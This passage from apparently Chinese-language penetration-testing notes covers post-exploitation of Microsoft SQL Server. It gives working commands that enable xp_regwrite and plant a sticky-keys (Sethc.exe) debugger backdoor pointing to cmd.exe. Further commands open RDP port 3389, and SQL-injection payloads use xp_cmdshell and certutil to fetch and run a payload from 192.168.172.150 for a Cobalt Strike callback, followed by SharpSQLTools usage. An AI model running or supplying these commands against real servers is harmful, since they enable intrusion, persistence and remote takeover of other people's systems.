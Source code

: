###### ③映像劫持

1. 未禁止注册表编辑(即写入功能)

2. xp_regwrite启用

   ```mssql
   --  检测是否启用
   	select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_regwrite'
   --  启用
   	EXEC sp_configure 'show advanced options',1
   RECONFIGURE
   	EXEC sp_configure 'xp_regwrite',1
   RECONFIGURE
   ```

```mssql
--  1. 将粘滞键启动结果替换成cmd命令窗口启动
	EXEC master..xp_regwrite @rootkey='HKEY_LOCAL_MACHINE',@key='SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution Options\Sethc.EXE',@value_name='Debugger',@type='REG_SZ',@value='c:\windows\system32\cmd.exe'
--  2. 开启3389端口
	EXEC master..xp_regwrite 'HKEY_LOCAL_MACHINE','SYSTEM\CurrentControlSet\Control\Terminal Server','fDenyTSConnections','REG_DWORD',0;
	or
EXEC master..xp_cmdshell 'REG ADD "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f' 
```

###### ④powershell上线cs

```mssql
id=1;EXEC master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.150:9090/payload64.txt c:\\inetpub\\wwwroot\\payload1.bat' --+
    	id=1';EXEC master..xp_cmdshell 'c:\\inetpub\\wwwroot\\payload1.bat' --+
```

###### ⑤结合工具

```mssql
--  SharpSQLTools利用xp_cmdshell
    	SharpSQLTools.exe 192.168.172.150 [username] [password] master enable_xp_cmdshell
    	SharpSQLTools.exe 192.168.172.150 [username] [password] master xp_cmdshell whoami
```

#### (5). Getshell

##### a. 条件

1. web路径已知
2. sa或DBA权限(db_owner权限)

##### b. 方法

* 涉及到**xp_cmdshell、xp_dirtree、xp_subdirs、xp_regread**存储过程

###### ①利用存储过程写shell

